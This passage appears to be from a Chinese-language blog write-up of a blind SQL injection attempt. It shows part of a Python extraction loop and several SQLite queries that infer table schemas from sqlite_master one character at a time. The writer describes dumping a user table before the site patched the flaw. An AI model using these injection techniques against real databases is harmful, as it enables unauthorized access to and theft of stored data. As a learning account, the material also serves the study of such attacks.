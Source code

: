 ```python
            data += payload
            break
        time.sleep(0.6)
        print "[in processing]:"+data
```

于是拿到用户表，其中发现存在userblacklist的表，那就与推测一致了，会先查询该表是否有数据，如果没有数据直接就跳到密码验证。

师傅叫我先跑密码，我没有听。我觉得不用操之过急，先把表名跑完了再跑密码也不迟。

晚上11:30，漏洞修复。

**无能狂怒2.0**

给出密码猜解的方法，弄了好久，才发现是被修复了，并不是语句有问题。

sqlite查询sql的值来得出字段的，里面的数据类似于创建语句如:CREATE TABLE....

```sqlite
select (SELECT substr(sql,1,1) FROM sqlite_master WHERE type!='meta' AND name='demo')='C'

SELECT(SELECT substr(sql,1,1) FROM sqlite_master WHERE type!='meta' AND name='demo') like 'C'

SELECT substr(sql,1,1) FROM sqlite_master WHERE type='table' limit 0,1

SELECT sql FROM sqlite_master where name = 'demo'
```

# 小结

这次注入虽然没能有好的收获，但是也学习到不少知识。